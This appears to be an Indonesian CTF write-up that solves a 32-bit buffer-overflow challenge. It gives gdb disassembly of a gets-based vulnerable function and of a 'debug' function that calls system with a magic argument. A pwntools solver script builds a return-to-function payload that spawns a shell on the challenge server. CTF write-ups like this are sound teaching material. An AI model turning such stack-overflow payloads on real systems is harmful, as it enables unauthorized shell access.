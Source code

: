 Fungsi ```hah```:
```
gdb-peda$ pdisas hah
Dump of assembler code for function hah:
   0x0804854e <+0>:  push   ebp
   0x0804854f <+1>:  mov    ebp,esp
   0x08048551 <+3>:  sub    esp,0x48
   0x08048554 <+6>:  sub    esp,0xc
   0x08048557 <+9>:  lea    eax,[ebp-0x48]
   0x0804855a <+12>: push   eax
   0x0804855b <+13>: call   0x8048390 <gets@plt>
   0x08048560 <+18>: add    esp,0x10
   0x08048563 <+21>: nop
   0x08048564 <+22>: leave  
   0x08048565 <+23>: ret    
End of assembler dump.
```

Fungsi ```debug```:
```
gdb-peda$ pdisas debug
Dump of assembler code for function debug:
   0x0804851c <+0>:  push   ebp
   0x0804851d <+1>:  mov    ebp,esp
   0x0804851f <+3>:  sub    esp,0x8
   0x08048522 <+6>:  cmp    DWORD PTR [ebp+0x8],0xaabbccdd
   0x08048529 <+13>: jne    0x804854b <debug+47>
   0x0804852b <+15>: sub    esp,0xc
   0x0804852e <+18>: push   0x8048620
   0x08048533 <+23>: call   0x80483a0 <puts@plt>
   0x08048538 <+28>: add    esp,0x10
   0x0804853b <+31>: sub    esp,0xc
   0x0804853e <+34>: push   0x804862b
   0x08048543 <+39>: call   0x80483b0 <system@plt>
   0x08048548 <+44>: add    esp,0x10
   0x0804854b <+47>: nop
   0x0804854c <+48>: leave  
   0x0804854d <+49>: ret    
End of assembler dump.
```

Solusi: ```Sampah + return address + argumen yang harus dipenuhi di address tujuan```

   1. Ukuran variable ```gets``` adalah 0x48 (72 dalam desimal) + 4 untuk sampai ke return address
   2. Address yang kita tuju adalah ```debug``` yang memanggil ```system("/bin/sh")```
   3. Dimana pada fungsi ```debug``` ebp+0x8 harus bernilai ```0xaabbccdd```.

Biar rapi kita bikin solvernya pake pwntools ok?

```solver.py```
```python
from pwn import *

r = remote("asgama.web.id", 40209)

offset = 72 + 4 # 4 adalah besar 1 register 32 bit
debug = p32(0x0804851c) # address debug
arg_debug = p32(0xaabbccdd) # arg ebp+0x8 pada debug 

payload = "A"*offset
payload += debug # return ke address debug
payload += "AAAA"# karena panjang arg_debug adalah 4 maka, kita isi sampah dgn ukuran 4 bytes sehingga ebp+0x8 terpenuhi
# ebp+0x4 | \x41\x41\x41\x41
# ebp+0x8 | \xdd\xcc\xbb\xaa
payload += arg_debug

```